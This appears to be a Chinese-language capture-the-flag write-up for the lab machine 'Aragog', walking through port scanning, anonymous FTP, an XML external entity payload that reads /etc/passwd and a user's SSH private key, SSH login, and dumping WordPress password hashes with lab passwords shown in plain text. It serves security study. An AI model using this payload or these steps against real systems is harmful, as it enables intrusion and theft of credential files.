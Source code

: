 ```yaml
---
title: Aragog（xml实体注入）
categories:
- training
tags:
- training
---
```


21，22，80

```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:21:fb:50:16:d4:93:dc:b7:29:1f:4c:c2:61:16:48 (RSA)
|   256 2c:94:00:3c:57:2f:c2:49:77:24:aa:22:6a:43:7d:b1 (ECDSA)
|_  256 9a:ff:8b:e4:0e:98:70:52:29:68:0e:cc:a0:7d:5c:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## 21匿名登陆

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/3.PNG)

test.txt
```
<details>
    <subnet_mask>255.255.255.192</subnet_mask>
    <test></test>
</details>
```
searchsploit vsftpd

3.0.3没有对应exp

## 80

Apache2 Ubuntu Default Page

```
gobuster -u http://10.10.10.78 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
没有发现任何东西
---
searchsploit apache 2.4
searchsploit -m exploits/linux/webapps/42745.py
python3 42745.py -h
python3 42745.py -u 10.10.10.78 -a
[ok] 10.10.10.78: 'OPTIONS,GET,HEAD,POST'

```
除了21端口，看起来是一个很“干净”的系统，找不到attack vector

## writeup
http://10.10.10.78/hosts.php
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/4.PNG)

There are 4294967294 possible hosts for 

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/6.PNG)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/5.PNG)

发现服务器解析了xml，将子网掩码转换为了主机台数。

参考资料： [owasp-xxe](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

xml外部实体注入攻击是解析xml输入的时候产生的。

当xml输入包含一个对外部实体的引用，脆弱的xml解析器处理xml注入的时候，就发生了攻击。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE details [
<!ELEMENT subnet_mask ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>

```
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/7.PNG)
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/8.PNG)

## info
获得linux用户信息。
```
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash

通过替换上述payload关键字“file:///home/florian/user.txt”，获得flag
file:///home/florian/.ssh/id_rsa，获得登陆私钥

ssh -i id_rsa florian@10.10.10.78
```
## 提权
对二进制文件利用。

查看web目录，/var/www/html，发现一个wordpress网页程序。

访问http://10.10.10.78/dev_wiki，burp抓包，配置hosts。

`echo 10.10.10.78 aragog >> /etc/hosts`

访问http://aragog/dev_wiki
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/9.PNG)

```
mysql -u root -p
$@y6CHJ^$#5c37j$#6h

show databases;
use wp_wiki;
show tables;
select * from wp_users;
Administrator | $P$B3FUuIdSDW0IaIc4vsjj.NzJDkiscu. 
获取了一串hash值，尝试在线解密失败
```

/usr/bin/whoopsie是一个二进制可执行文件，通过程序的利用，获得su/root的密码

su/!KRgYs(JFO!&MTr)lf

有空再研究吧，睡觉~~


